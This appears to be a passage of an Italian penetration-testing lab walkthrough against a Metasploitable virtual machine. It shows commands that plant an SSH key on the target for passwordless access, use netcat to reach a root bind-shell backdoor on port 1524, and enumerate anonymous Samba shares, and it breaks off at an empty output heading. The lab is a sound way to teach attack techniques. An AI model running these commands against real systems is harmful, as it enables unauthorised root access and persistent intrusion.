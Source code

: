 ```
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/luca/.ssh/id_ed25519):
Enter passphrase for "/home/luca/.ssh/id_ed25519" (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/luca/.ssh/id_ed25519
Your public key has been saved in /home/luca/.ssh/id_ed25519.pub
...
```

2. Copia la chiave pubblica sulla macchina target:

```bash
ssh-copy-id -oHostKeyAlgorithms=+ssh-rsa msfadmin@172.16.49.231
```

Inserisci la password quando richiesto:

```
/usr/bin/ssh-copy-id: INFO: Source of key(s) to be installed: "/home/luca/.ssh/id_ed25519.pub"
...
msfadmin@172.16.49.231's password:
Number of key(s) added: 1
```

3. Ora puoi accedere senza password:

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa msfadmin@172.16.49.231
```

## Exploiting Bind Shell Backdoor 🚪

Un backdoor bind shell è attivo sulla porta 1524, fornendo accesso diretto a una shell root.

1. Connettiti usando Netcat:

```bash
nc 172.16.49.231 1524
```

2. Ottieni una shell root:

```
root@metasploitable:/# whoami
root
```

## Exploiting Samba Anonymous Shares 📂

Il servizio Samba consente l'accesso anonimo alle condivisioni.

1. Elenca le condivisioni disponibili senza autenticazione:

```bash
smbclient -L //172.16.49.231 -N
```

Output:

